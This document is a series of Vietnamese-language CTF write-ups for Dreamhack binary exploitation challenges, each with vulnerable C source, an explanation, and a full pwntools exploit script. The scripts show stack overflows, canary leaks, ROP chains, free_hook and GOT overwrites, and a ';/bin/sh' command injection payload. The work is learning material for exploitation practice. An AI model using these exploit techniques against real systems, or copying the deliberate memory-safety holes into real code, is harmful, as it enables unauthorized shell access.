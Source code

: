 # sint

## Source

<details> <summary> Source </summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

// void initialize()
// {
//     setvbuf(stdin, NULL, _IONBF, 0);
//     setvbuf(stdout, NULL, _IONBF, 0);

//     signal(SIGALRM, alarm_handler);
//     alarm(30);
// }

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    // initialize();

    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);
    printf("%d\n", size);
    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}
```

<details>

## Ý tưởng

- Hướng đi của ta là sẽ gây lỗi `SIGSEGV` để thực thi shell, nghĩa là sẽ phải ow rip, gây lỗi `SIGSEGV`

- Sau một thời gian nghĩ và thảo luận với nhau thì ta thấy ở hàm tham số thứ 3 của hàm read là `size - 1` (Số lượng phần tử để đọc) thường là số dương, vậy nếu ta nhập số 0 và thì tham số thứ 3 mang giá trị âm. Vậy có gây lỗi không?
- Theo chat-gdb như sau

```
Nếu tham số nmemb có giá trị âm, hàm read() sẽ trả về -1 và đặt biến errno thành EINVAL, indicatinig một lỗi.
```

## Thực thi

- Đầu tiên khi được hỏi size thì ta sẽ trả lời 0
- Data: ta sẽ nhập thử 10 byte "a"

```
Size: 0
Data: qqqqqqqqqqqq
ls
```

- Chương trình lỗi nhưng chưa chiếm được shell, vì nếu nhập số lượng byte nhỏ hơn 256 của buf, chương trình chỉ nhận được lỗi `EINVAL` của read() mà ta chỉ chiếm được shell khi có lỗi `SIGSEGV`
- Vậy nên ta sẽ nhập cỡ 280 byte "a"

```
Size: 0
Data: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
ls
flag
sint
cat flag
DH{d66e84c453b960cfe37780e8ed9d70ab}
```

# Return_to_Library

## Source

<details> <summary> Source C </summary>

```c
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

</details>

## Ý tưởng

- Bài này không có hàm tạo shell nhưng cung cấp cho ta hàm system, chuỗi /bin/sh, ta hoàn toàn có thể tạo shell

```c
const char* binsh = "/bin/sh";
system("echo 'system@plt");
```

## Thực thi

- Đầu tiên chương trình có canary và yêu cầu ta leak, bài này tương tự như một bài trước đó, do %s in đến byte 0x00 sẽ ngừng in, nên nếu ghi đè đến trước canary, còn byte 0x00 của canary nên không in ra được
- Vậy, ta sẽ ghi đè byte 0x00 bằng byte 0x61, sau khi lấy được canary ta sẽ phải trừ đi 0x61 là byte ghi đè

![image](https://user-images.githubusercontent.com/111769169/227799702-bd49823a-54aa-4c51-b46d-398b62073c8a.png)

```python
payload = b"a"*57
r.sendafter(b"Buf: ", payload)
r.recvuntil(b"a" * 56)
canary = u64(r.recv(8))
canary = canary - 0x61
log.info("canary: " + hex(canary))
```

- Tiếp đó, ta sẽ sử dụng gadget `pop rdi và ret` để điều khiển chương trình, do chương trình cung cấp /bin/sh và system nên ta dễ dàng có được shell

```python
payload = b"a" * 56 + p64(canary)
payload += b"a" * 8 + p64(ret) + p64(pop_rdi)
payload += p64(next(exe.search(b'/bin/sh'))) + p64(exe.sym["system"])
r.sendafter(b"Buf: ", payload)
```

## Kết quả

![image](https://user-images.githubusercontent.com/111769169/227799897-578c6c6c-c248-45db-aeba-3cb06391686c.png)

<details> <summary> full script </summary>

```python
from pwn import *

exe = ELF("./rtl")
r = remote("host3.dreamhack.games", 15274)
# r = process(exe.path)
# gdb.attach(r, gdbscript='''
#            b*main+145
#            c
#            ''')
input()
pop_rdi = 0x0000000000400853
ret = 0x0000000000400285

payload = b"a"*57
r.sendafter(b"Buf: ", payload)
r.recvuntil(b"a" * 56)
canary = u64(r.recv(8))
canary = canary - 0x61
log.info("canary: " + hex(canary))

payload = b"a" * 56 + p64(canary)
payload += b"a" * 8 + p64(ret) + p64(pop_rdi)
payload += p64(next(exe.search(b'/bin/sh'))) + p64(exe.sym["system"])
r.sendafter(b"Buf: ", payload)

r.interactive()
```

</details>

# one_shot

## Source

<details> <summary> Source </summary>

```c
// gcc -o oneshot1 oneshot1.c -fno-stack-protector -fPIC -pie

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    char msg[16];
    size_t check = 0;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("MSG: ");
    read(0, msg, 46);

    if(check > 0) {
        exit(0);
    }

    printf("MSG: %s\n", msg);
    memset(msg, 0, sizeof(msg));
    return 0;
}
```

</details>

## Ý tưởng

- Bài này chủ yếu hướng dẫn chúng ta tạo shell bằng one_gadget, tuy nhiên chỉ khác một chút ở đây

```c
    if(check > 0) {
        exit(0);
    }
```

- Nó sẽ kiểm tra biến check, biến check trong stack `rbp-0x8`

![image](https://user-images.githubusercontent.com/111769169/227836552-a392aab4-4d25-4f8c-ad72-aa28b3a2188a.png)

- vậy ta sẽ ghi đè biến check là 0x0 để được ghi tiếp chương trình

## Thực thi

- Đầu tiên người ta cho chúng ta địa chỉ libc stdout
- Ta cần dựa vào địa chỉ đó để tính ra địa chỉ base libc

```python
    r.recvuntil(b"stdout: ")
    leak = int(r.recvline(keepends=False).decode(), 16)
    libc.address = leak - 3954208
    log.info("libc: " + hex(libc.address))
```

- Tiếp đó ta tìm gadget phù hợp ở đây em chọn gadget `0x45216`
- Cuối cùng tạo payload, lưu ý do check nằm sau 24 kí tự "a" nên ta cần trả về 0 để tiếp tục chương trình

```python
    payload = b"a" * 24 + p64(0) + b"a" * 8 + p64(libc.address + one_gadget)
    r.sendafter(b"MSG: ", payload)
```

## Kết quả

![image](https://user-images.githubusercontent.com/111769169/227837108-c5a3e799-f65a-433a-972d-806b5253b970.png)

<details> <summary> full script </summary>

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./oneshot_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r, gdbscript='''
                   b*main+138
                   b*main+102
                   c
                   ''')
    else:
        r = remote("host3.dreamhack.games", 17120)

    return r


def main():
    r = conn()
    input()
    r.recvuntil(b"stdout: ")
    leak = int(r.recvline(keepends=False).decode(), 16)
    libc.address = leak - 3954208
    log.info("libc: " + hex(libc.address))

    one_gadget = 0x45216
    payload = b"a" * 24 + p64(0) + b"a" * 8 + p64(libc.address + one_gadget)
    r.sendafter(b"MSG: ", payload)
    r.interactive()


if __name__ == "__main__":
    main()
```

</details>

# rop

## Source C

<details> <summary> Source C </summary>

```c
// Name: rop.c
// Compile: gcc -o rop rop.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

</details>

## Ý tưởng

- Bài này tương tự như những bài trước, vẫn dùng ROPgadget, one_gadget để chiếm shell

## Thực thi

### Leak canary

- Bài này tương tự như các bài trước, ta sẽ ghi đè bài 0x00 của canary thành 0x61 để %s có thể ghi hết giá trị canary

- Sau đó ta trừ 0x61 để lấy lại giá trị đúng của canary

```python
    payload = b"a" * 57
    r.sendafter(b"Buf: ", payload)
    r.recvuntil(b"a" * 56)
    canary = u64(r.recv(8)) - 0x61
    log.info("canary: " + hex(canary))
```

- Sau đó ta trở về main để tiếp tục leak

```python
    payload = b"a" * 56 + p64(canary) + b"a"*8 + p64(exe.sym['main'] + 1)
    r.sendafter(b"Buf: ", payload)
```

### Leak địa chỉ libc

- Do là ta biết được giá trị canary nên lần leak này, ta sẽ ghi đè luôn cả canary trước rip

```python
    payload = b"a" * 56 + p64(canary) + b"a"*8 + p64(pop_rdi)
    payload += p64(exe.got['puts'])
    payload += p64(exe.plt['puts']) + p64(exe.sym['main'])
    r.sendafter(b"Buf: ", payload)
```

- Do lần nhập thứ nhất ta đã setup rồi nên lần nhập thứ 2 không quan trọng

```python
    r.recvuntil(b"a" * 56)
    r.sendafter(b"Buf: ", b"a")
```

- Tính địa chỉ base libc

```python
    leak_libc = u64(r.recvline(keepends=False) + b'\0\0')
    libc.address = leak_libc - 527008
    log.info("leak libc: " + hex(leak_libc))
    log.info("base libc: " + hex(libc.address))
```

### ow rip bằng one gadget

```python
    one_gadget = 0x4f432
    payload = b"a" * 56 + p64(canary) + p64(0) + p64(libc.address + one_gadget)
    r.sendafter(b"Buf: ", payload)
    r.recvuntil(b"a" * 56)
    r.sendafter(b"Buf: ", b"a")
```

## Kết quả

![image](https://user-images.githubusercontent.com/111769169/228313627-6b0e662b-7b87-4946-9e96-cd0fa4b6f20a.png)

<details> <summary> full script </summary>

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./rop_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r, gdbscript='''
                    b*main+199
                    c
                    c
                    ''')
    else:
        r = remote("host3.dreamhack.games", 16829)

    return r


def main():
    r = conn()
    input()

    pop_rdi = 0x00000000004007f3
    payload = b"a" * 57
    r.sendafter(b"Buf: ", payload)
    r.recvuntil(b"a" * 56)
    canary = u64(r.recv(8)) - 0x61
    log.info("canary: " + hex(canary))

    payload = b"a" * 56 + p64(canary) + b"a"*8 + p64(exe.sym['main'] + 1)
    r.sendafter(b"Buf: ", payload)

    payload = b"a" * 56 + p64(canary) + b"a"*8 + p64(pop_rdi)
    payload += p64(exe.got['puts'])
    payload += p64(exe.plt['puts']) + p64(exe.sym['main'])
    r.sendafter(b"Buf: ", payload)
    r.recvuntil(b"a" * 56)
    r.sendafter(b"Buf: ", b"a")

    leak_libc = u64(r.recvline(keepends=False) + b'\0\0')
    libc.address = leak_libc - 527008
    log.info("leak libc: " + hex(leak_libc))
    log.info("base libc: " + hex(libc.address))

    one_gadget = 0x4f432
    payload = b"a" * 56 + p64(canary) + p64(0) + p64(libc.address + one_gadget)
    r.sendafter(b"Buf: ", payload)
    r.recvuntil(b"a" * 56)
    r.sendafter(b"Buf: ", b"a")

    r.interactive()


if __name__ == "__main__":
    main()
```

</details>

# hook

## Source

<details> <summary> source C </summary>

```c
// gcc -o init_fini_array init_fini_array.c -Wl,-z,norelro
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);

    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}
```

</details>

## Ý tưởng

- Ở đây kĩ thuật này khá mới nên em chỉ hiểu sơ sơ là ta sẽ overwrite hàm free thành onegadget

## Thực thi

- Đầu tiên chương trình cho ta một địa chỉ libc của stdout, ta sẽ dựa vào địa chỉ đó để tính libc base

```python
libc_base = stdout - 3954208
free_hook = libc_base + 3958696
magic = libc_base + one_gadget
```

- Khi được hỏi về size chúng ta sẽ nhập size sao cho lớn hơn size payload của mình

## Kết quả

![image](https://user-images.githubusercontent.com/111769169/228539882-e6246e5c-dfa3-4990-a551-ce870f620118.png)

<details> <summary> Full script </summary>

```python
from pwn import *
p = remote("host2.dreamhack.games", 14428)
# p = process("./hook_patched")
# context.log_level = "debug"
# e = ELF("./hook_patched")
# libc = ELF("./libc.so.6")
# gdb.attach(p, gdbscript='''
#            b*main+158
#            b*main+128
#            c
#            ''')

input()
one_gadget = 0x4526a

p.recvuntil("stdout: ")
stdout = int(p.recv(14), 16)

libc_base = stdout - 3954208
free_hook = libc_base + 3958696
magic = libc_base + one_gadget
log.info(hex(libc_base) + " " + hex(free_hook))
payload = p64(free_hook) + p64(magic)

p.sendlineafter(b"Size: ", b"50")


p.sendlineafter(b"Data: ", payload)

p.interactive()
```

</details>

## Đọc thêm

- Trong hướng dẫn của dreamhack ngoài ghi đè free còn ghi đè `__malloc_hook`
- Khi thực thi thử `__malloc_hook` thì em thấy nó báo lỗi ở 2 hàm free()

```
b"*** Error in `./hook_patched': double free or corruption (fasttop): 0x000000000220a010 ***\n"
*** Error in `./hook_patched': double free or corruption (fasttop): 0x000000000220a010 ***
```

- Từ đây ta có thể đoán được nếu cuối chương trình có hai hàm free() ta nên ghi đè hàm free()

# off_by_one_001

## Source

<details> <summary> source </summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_str(char *ptr, int size)
{
    int len;
    len = read(0, ptr, size);
    printf("%d", len);
    ptr[len] = '\0';
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char name[20];
    int age = 1;

    initialize();

    printf("Name: ");
    read_str(name, 20);

    printf("Are you baby?");

    if (age == 0)
    {
        get_shell();
    }
    else
    {
        printf("Ok, chance: \n");
        read(0, name, 20);
    }

    return 0;
}
```

</details>

## Ý tưởng

- Ở đây chúng ta cần ghi đè biến age thành 0 để có thể chạy được shell
- Ta thấy mảng buf[20] nằm khá gần biến v5 là age của chúng ta

```c
  char buf[20]; // [esp+0h] [ebp-18h] BYREF
  int v5; // [esp+14h] [ebp-4h]
```

- Bằng một vài phép tính ta thấy khi ta nhập full 20 byte "a" thì byte thứ 21 sẽ ghi đè được v5

```
>>> -0x18 + 20
-4
```

- Mà ta nhớ rằng, hàm read() không đọc byte null, nghĩa là khi 20 kí tự nó sẽ đọc đúng 20 kí tự, nếu muốn sử dụng 20 kí tự ấy như một xâu kí tự thì ta sẽ phải thêm byte '\0' cuối chuỗi đó.
- Câu lệnh sau cho ta thấy nếu len là 20 thì `buf[20] = '\0'` trong khi buf khai báo buf[20] nhưng trên lí thuyết ta chỉ được sử dụng đến giá trị `buf[19] = 'a'`

```c
    ptr[len] = '\0';
```

## Thực thi

- Ta sẽ nhập vào một chuỗi kí tự 20 byte

## Kết quả

![image](https://user-images.githubusercontent.com/111769169/228557377-ca9363c4-9230-4525-92dd-43caaace88e6.png)

# off_by_one_000

## Ý tưởng

- Khi ta nhập 255 byte ta thấy ta đã overwrite 1 byte null vào ebp
- Giá trị ebp lại là một địa chỉ nào đó trong buf.

![image](https://user-images.githubusercontent.com/111769169/228569563-af23eebd-2ed1-432d-b082-4dd810e415e9.png)

- Địa chỉ stack là địa chỉ động nên ta sẽ tạo payload full địa chỉ get_shell để khi ow địa chỉ ebp, dù nhảy đến địa chỉ nào trong stack thì cũng là địa chỉ của get_shell

## Kết quả

![image](https://user-images.githubusercontent.com/111769169/228578127-a837e329-d6af-46bc-a5e1-c6059a08ff69.png)

<details> <summary> Source </summary>

```python
# form solve pwn đỡ phải viết script =)))
#!/usr/bin/env python3

from pwn import *

exe = ELF("./off_by_one_000")
# libc = ELF("./libc-2.27.so")
# ld = ELF("./ld-2.27.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r, gdbscript = '''
                   b*main+64
                   b*cpy+0
                   c
                   ''')
        input()
    else:
        r = remote("host3.dreamhack.games", 17014)

    return r


def main():
    r = conn()

    payload = p32(exe.sym['get_shell']) * (256 // 4)

    r.sendafter(b"Name: ", payload)
    r.interactive()


if __name__ == "__main__":
    main()
```

</details>

![image](https://user-images.githubusercontent.com/111769169/228579098-6c05078e-1adc-4ee6-af08-d7c4766b994b.png)

# cmd_center

## Source

<details> <summary> IDA </summary>

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-130h] BYREF
  char s1[10]; // [rsp+20h] [rbp-110h] BYREF
  __int16 v5; // [rsp+2Ah] [rbp-106h]
  int v6; // [rsp+2Ch] [rbp-104h]
  char v7[240]; // [rsp+30h] [rbp-100h] BYREF
  _QWORD v8[2]; // [rsp+120h] [rbp-10h] BYREF

  v8[1] = __readfsqword(0x28u);
  strcpy(s1, "ifconfig");
  s1[9] = 0;
  v5 = 0;
  v6 = 0;
  memset(v7, 0, sizeof(v7));
  init(v8, argv, v7);
  printf("Center name: ");
  read(0, buf, 100uLL);
  if ( !strncmp(s1, "ifconfig", 8uLL) )
    system(s1);
  else
    puts("Something is wrong!");
  exit(0);
}
```

</details>

## Ý tưởng

- Ban đầu đọc source C khá lú nên ta coi ida cho nó chắc
- ta thấy lỗi BOF ở `read(0, buf, 100uLL);`, ở đây ta cần phải BOF để ghi đè vào s1 để có thể thoả hàm if để chạy `system(s1)`
- Đây là một số lệnh

![image](https://user-images.githubusercontent.com/111769169/228616963-888b11dc-cbff-488f-8dba-e586f3c572c1.png)
![image](https://user-images.githubusercontent.com/111769169/228617045-b3c47761-fd67-4ee4-a083-26c790367579.png)

- Ta sẽ sử dụng dấu `;` để có thể thực thi cả 2 câu lệnh, ifconfig và /bin/sh

## Thực thi

- Đầu tiên ta cần tính offset từ buf đến s1

```
>>> -0x130 -- 0x110
-32
```

- ow đến địa chỉ s1 ta sẽ nhập `ifconfig;/bin/sh`

## Kết quả

```
Center name: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaifconfig;/bin/sh
ls
cmd_center
flag
run.sh
cat flag
DH{f4c11bf9ea5a1df24175ee4d11da0d16}
```

# ssp_000

## Source

<details> <summary> source C </summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();


    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```

</details>

## Ý tưởng

- Chương trình cho phép ta thay đổi dữ liệu của một địa chỉ
- Ta sẽ thay đổi `__stack_chk_fail` thành get_shell() (em tham khảo wu)
- Để có thể thay đổi được, ta sẽ ghi vào địa chỉ của `____stack_chk_fail` thành địa chỉ chỉ của get_shell()

## Thực thi

- Ta tính được offset từ đầu khi ghi đè canary là 80 ( vì nếu chương trình kiểm tra canary đã thay đổi thì nó sẽ thực thi `__stack_chk_fail`)
- Khi được hỏi địa chỉ thì ta sẽ ghi vào địa chỉ của `__stack_chk_fail@got` dưới dạng int
  và địa chỉ get_shell()

## Kết quả

```python
from pwn import *

exe = ELF("./ssp_000")
# libc = ELF("./libc-2.27.so")
# ld = ELF("./ld-2.27.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
    else:
        r = remote("addr", 1337)

    return r


def main():
    r = conn()

    r.sendline(b"a" * 80)
    r.sendlineafter(b"Addr : ", str(exe.got['__stack_chk_fail']))
    r.sendlineafter(b"Value : ", str(exe.sym['get_shell']))
    r.interactive()


if __name__ == "__main__":
    main()
```

![image](https://user-images.githubusercontent.com/111769169/228650651-ae36d4b8-16cd-4f8a-ad7b-a8a4a01c3f5e.png)

# fho

## source C

```c
// Name: fho.c
// Compile: gcc -o fho fho.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  char buf[0x30];
  unsigned long long *addr;
  unsigned long long value;

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  puts("[1] Stack buffer overflow");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  puts("[2] Arbitary-Address-Write");
  printf("To write: ");
  scanf("%llu", &addr);
  printf("With: ");
  scanf("%llu", &value);
  printf("[%p] = %llu\n", addr, value);
  *addr = value;

  puts("[3] Arbitrary-Address-Free");
  printf("To free: ");
  scanf("%llu", &addr);
  free(addr);

  return 0;
}
```

## Ý tưởng

- Bài này em có tham khảo một xíu
- Bài này không thể BOF được vì chúng ta chỉ có thể sử dụng 1 lần hàm read(), nếu sử dụng để leak canary thì không thể nào ret2libc
- Do đó mục tiêu của ta là thay đổi hàm nào đó
- Ở đây ta có chú ý có hàm free(), hàm free() chỉ có thể sử dụng trên địa chỉ động do malloc() tạo ra, nếu truy cập vào địa chỉ nào khác sẽ gây lỗi (theo chat-gdb)
- Ở đây ta sẽ dùng hook ow
- Ta sẽ dùng lần nhập thứ 2 để thay đổi địa chỉ hàm free() thành hàm system chẳng hạn
- Sau đó dùng lần nhập thứ 3 trỏ đến chuỗi /bin/sh
- Trên lí thuyết có thể là vậy

## Thực thi

### Leak libc

- Khi ta gdb và kiểm tra thì bên trên canary không có giá trị nào để ta có thể leak, do đó buộc phải leak libc, uy tín nhất là leak rip vì tỉ lệ đúng cao nhất

![image](https://user-images.githubusercontent.com/111769169/228671213-1ad3714b-63f6-49a9-bb26-1a7cc26ea3bc.png)

> tình hình là khi debug động thì có các giá trị lạ (có thể là rác) bên trong buf, còn debug thì sẽ giống như hình, do đó vẫn chọn rip để leak

- Tính offset

```python
    payload = b"a" * 72
    r.sendlineafter(b"Buf: ", payload)
    r.recvuntil(b"a" * 72)
    leak_libc = u64(r.recv(6) + b"\0\0")
    libc.address = leak_libc - 137994
    log.info("leak: " + hex(leak_libc))
    log.info("base: " + hex(libc.address))
```

- Kiểm tra, có đoạn 0x000 chắc là đúng r =)))

![image](https://user-images.githubusercontent.com/111769169/228674641-94732b7c-7b63-480b-bb07-7564268ea63d.png)

### Ghi đè free

- Tương tự như một vài bài trước, do chương trình cho phép ta sửa giá trị của một địa chỉ nên ta sẽ dựa vào đó để thay đổi got của free thành địa chỉ của system
- Do chương trình yêu cầu nhập vào số nguyên dương nên ta dùng str

```python
    payload = libc.sym['__free_hook']
    r.sendlineafter(b"To write: ", str(payload))
    payload = libc.sym['system']
    r.sendlineafter(b"With: ", str(payload))
```

### ghi /bin/sh

- do system và free đều chỉ sử dụng một thanh rdi để thực thi, nên ta sẽ ghi địa chỉ chuỗi /bin/sh trong file libc vào addr khi đó hàm free này đã trở thành system và nhận đối số là địa chỉ /bin/sh

```python
    payload = next(libc.search(b'/bin/sh'))
    r.sendlineafter(b"To free: ", str(payload))
    r.interactive()
```

## Kết quả

![image](https://user-images.githubusercontent.com/111769169/228676900-5f1a04b3-26cf-45b7-95a6-52914d17fcde.png)

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./fho_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r, gdbscript='''
                   b*main+129
                   b*main+134
                   b*main+211
                   b*main+252
                   b*main+344
                   c
                   ''')
        input()
    else:
        r = remote("host3.dreamhack.games", 19902   )

    return r


def main():
    r = conn()

    payload = b"a" * 72
    r.sendlineafter(b"Buf: ", payload)
    r.recvuntil(b"a" * 72)
    leak_libc = u64(r.recv(6) + b"\0\0")
    libc.address = leak_libc - 137994
    log.info("leak: " + hex(leak_libc))
    log.info("base: " + hex(libc.address))

    payload = libc.sym['__free_hook']
    r.sendlineafter(b"To write: ", str(payload))
    payload = libc.sym['system']
    r.sendlineafter(b"With: ", str(payload))

    payload = next(libc.search(b'/bin/sh'))
    r.sendlineafter(b"To free: ", str(payload))
    r.interactive()


if __name__ == "__main__":
    main()
```

